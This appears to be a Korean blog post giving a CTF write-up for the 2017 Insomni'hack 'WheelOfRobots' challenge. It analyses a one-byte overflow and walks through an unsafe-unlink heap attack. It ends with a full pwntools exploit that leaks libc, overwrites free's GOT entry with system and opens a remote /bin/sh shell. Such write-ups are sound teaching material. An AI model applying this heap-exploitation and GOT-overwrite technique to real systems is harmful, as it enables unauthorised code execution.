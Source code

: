 ```yaml
---
layout: post
title: "[2017_Insomni'hack] WheelOfRobots 풀이"
date: 2018-09-26 04:44
categories: "[Pwn]CTF"
tags: rotles98
---
```


>[WheelOfRobots](https://github.com/pwnwiz/CTF/raw/master/WheelOfRobots/WheelOfRobots) 
으어

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
![checksec](/img/2017_Insomni'hack/WheelOfRobots/01.png)
{: refdef}

`func_add`

1. 로봇 선택 (이때 `1byte overflow` 발생)

2. `2`, `3`, `6` 일 경우 로봇의 특성 값 같은걸 입력

3. 로봇의 이름만큼 할당받고 그 안에 이름이 들어감<br /><br />

4. `robot_count` 증가

`func_delete`

1. 로봇 선택

2. `flag` 값이 존재하면 `free(robot_name)`, `robot_count` 감소<br /><br />

`func_change`

1. 로봇 선택

2. `flag` 값이 존재하면 해당 로봇의 이름만큼 `read`<br /><br />

`func_start`

1. `robot_count`가 2 초과인지 확인 아닐시 `return`

2. `sub_4015BD(6)`의 결괏값과 `robot_flag` 값을 가지고 특정 함수 실행 (별로 안 중요)

3. `exit(1)`<br /><br />

`robot_list`

{: refdef: style="text-align: center;"}
![robot_list](/img/2017_Insomni'hack/WheelOfRobot/02.png)
{: refdef}

이 문제는 `robot_name`, `robot_flag`, `robot_len`까지 다 `bss`에 저장돼 있어요.

- - -
# 0x01. 공격 방법

`func_add`의 **1**을 보면 `1byte overflow`가 발생하는데 해당 버퍼를 보면 `robot_2_flag`의 값을 바꿀 수 있어요.

그래서 `robot_2`를 가지고 `unsafe_unlink`를 사용할 거에요.

`robot_2`는 `fastbin`이라서 `fastbin_dup_consolidate`을 사용할 수 있어요.

1. `func_add(2)` input = `2`

2. `func_add(4)`

3. `func_delete(2)`

4. `func_add(5)`, `robot_2_flag = 1`

5. `func_change(2)`를 사용해 `fake_chunk`를 만듦

6. `func_delete(4)` -> `robot_2`의 `fake_chunk`에서 `unlink` 실행

7. `robot_2_name`의 주소가 `robot_2_name - 0x18`로 바뀜

8. `func_change(2)`로 `robot_2_name - 0x18`부터 `0x28`만큼 데이터를 바뀌서 `system(/bin/sh)` 실행

- - -
# 0x02. 익스플로잇

```python
from pwn import *
#context.log_level = "debug"

HOST = "192.168.0.19"
#HOST = ""
PORT = 4444
#PORT =

s = remote(HOST, PORT)
pause()

elf = ELF("./WheelOfRobots")
libc = ELF("./libc.so.6")

puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]
free_got = elf.got["free"]

puts_off = libc.symbols["puts"]
system_off = libc.symbols["system"]

robot_4_name = 0x6030E0
robot_2_name = 0x6030F0
robot_2_flag = 0x603114

def func_add(index):
    s.recvuntil("Your choice : ")
    s.sendline("1")

    s.recvuntil("Your choice :")
    s.sendline(index)

def func_delete(index):
    s.recvuntil("Your choice : ")
    s.sendline("2")

    s.recvuntil("Your choice :")
    s.sendline(str(index))

def func_change(index, content):
    s.recvuntil("Your choice : ")
    s.sendline("3")

    s.recvuntil("Your choice :")
    s.sendline(str(index))

    s.recvuntil("Robot's name: ")
    s.send(content)

func_add(str(2))
s.sendline("2")
func_add(str(4))

func_delete(2)
func_add("5" + "\x00\x00\x00" + "\x01")

payload = p64(0x0)
payload += p64(0x20)
payload += p64(robot_2_name - 0x18)
payload += p64(robot_2_name - 0x10)
payload += p64(0x20)
func_change(2, payload)

func_delete(4)

payload = p64(0x0)*3
payload += p64(robot_4_name) # robot_2_name
func_change(2, payload)

payload = p64(free_got) # robot_4_name
payload += p64(puts_got) # robot_6_name
payload += p64(robot_2_flag) # robot_2_name
func_change(2, payload)

payload = p32(0x1)*3 # robot_2, 4, 6 flag
func_change(2, payload)

func_change(4, p64(puts_plt))
func_delete(6) # libc_leak
libc_puts = u64(s.recvuntil("\x7f").ljust(8, "\x00"))

libc_base = libc_puts - puts_off
libc_system = libc_base + system_off

print
log.info("libc_base : " + hex(libc_base))
log.info("libc_puts : " + hex(libc_puts))
log.info("libc_system : " + hex(libc_system))
print

func_change(4, p64(libc_system))
func_change(2, "/bin/sh\0")
func_delete(2)

s.interactive()
```
